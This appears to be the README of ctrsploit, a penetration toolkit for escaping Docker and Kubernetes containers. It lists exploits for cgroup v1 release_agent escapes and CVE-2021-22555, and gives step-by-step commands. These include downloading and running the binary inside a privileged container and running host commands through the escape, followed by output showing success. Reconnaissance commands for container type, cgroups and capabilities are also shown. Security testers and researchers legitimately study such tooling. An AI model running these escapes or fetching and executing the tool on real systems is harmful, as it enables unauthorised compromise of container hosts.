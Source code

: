 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

## Pre-Built Release
https://github.com/ssst0n3/ctrsploit/releases

## Usage
### Quick-Start

## Details
### exploit
| exploit | alias | description | doc |
| --- | --- | --- | --- |
| cgroupv1-release_agent | ra | escape tech by using the notify_on_release of cgroup v1 | [doc](./exploit/cgroupv1-release_agent/README.md) |
| cgroupv1-release_agent-unknown_rootfs | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs | [doc](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) |
| cve-2021-22555 | 22555 | escape tech by using the CVE-2021-22555 | [doc](./exploit/CVE-2021-22555/README.md) |

### help

```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

if we do not know the rootfs of container, ctrsploit can still escape by release agent tech

```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

cgroup version

```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

graph driver

```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

capability

```
root@ctr:/# ./ctrsploit env cap
INFO[0000] ===========Capability=========
pid 1
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]

current process
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]
```

## Todo List

see [FEATURES.md](./FEATURES.md)